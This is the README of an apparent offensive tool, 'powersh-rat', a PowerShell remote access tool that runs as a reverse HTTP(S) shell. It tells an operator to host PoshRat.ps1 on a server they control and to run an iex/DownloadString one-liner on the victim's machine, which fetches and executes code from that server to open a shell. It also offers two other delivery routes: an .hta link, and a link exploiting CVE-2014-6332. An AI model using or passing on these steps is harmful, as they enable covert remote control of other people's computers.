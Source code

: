 # powersh-rat
=======

PowerShell Reverse HTTP(s) Shell

- Invoke PoshRat.ps1 On An A server you control.  Requires Admin rights to listen on ports.
- To Spawn The Reverse Shell Run On Client

   iex (New-Object Net.WebClient).DownloadString("http://server/connect")
- [OR] Browse to or send link to http://server/app.hta
- [OR] For CVE-2014-6332 Send link to http://server/app.html
